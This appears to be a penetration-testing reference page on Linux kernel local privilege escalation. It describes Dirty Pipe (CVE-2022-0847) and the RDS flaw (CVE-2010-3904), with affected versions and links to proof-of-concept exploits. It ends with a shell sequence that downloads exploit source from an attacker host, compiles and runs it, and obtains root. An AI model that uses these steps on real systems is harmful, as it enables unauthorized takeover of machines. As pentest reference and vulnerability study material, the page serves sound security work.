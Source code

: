 # Kernel

## Local PE

### Dirty Pipe

{% hint style="warning" %}
* Affected versions:&#x20;
  * `5.8` ≤ version < `5.16.11`
  * `5.15` ≤ version < `5.15.25`
  * `5.10` ≤ version < `5.10.102`
* PoC: [https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
{% endhint %}

Dirty Pipe ([CVE-2022-0847](https://nvd.nist.gov/vuln/detail/cve-2022-0847)) is a Linux kernel vulnerability that allows unprivileged local users to escalate privileges by exploiting uninitialized `pipe_buffer` flags. Due to a flaw in how the kernel handles pipes (`copy_page_to_iter_pipe()` and `push_pipe()`), stale flag values may grant unintended write access to pages in the page cache, even if they back read-only files.

By injecting data into these cached pages, it becomes possible to overwrite sensitive files (e.g., `/etc/passwd`) without modifying the actual filesystem. This enables silent privilege escalation and arbitrary code injection without detection by most integrity controls.

### RDS

{% hint style="warning" %}
* Affected versions: ≤ `2.6.36`
* PoC: [https://www.exploit-db.com/exploits/15285](https://www.exploit-db.com/exploits/15285)
{% endhint %}

The [CVE-2010-3904](https://nvd.nist.gov/vuln/detail/cve-2010-3904) vulnerability affects the RDS (Reliable Datagram Sockets) implementation in the Linux kernel prior to version `2.6.36`. The function `rds_page_copy_user()` fails to properly validate user-supplied memory addresses during `sendmsg` and `recvmsg` calls. As a result, a local attacker can write arbitrary data to kernel memory.

This flaw allows reliable privilege escalation by overwriting function pointers or other critical kernel structures. No special capabilities are required beyond local access and the ability to open an RDS socket. Because it directly manipulates kernel memory, exploitation is fast and effective, making it highly valuable for post-exploitation or lateral movement in older systems that remain unpatched.

```bash
$ wget http://192.168.45.170:443/linux-rds-exploit.c -O /tmp/linux-rds-exploit.c
$ chmod +x linux-rds-exploit.c
$ gcc linux-rds-exploit.c -o rds
$ ./rds
[*] Got root!
# id
uid=0(root) gid=0(root)
```
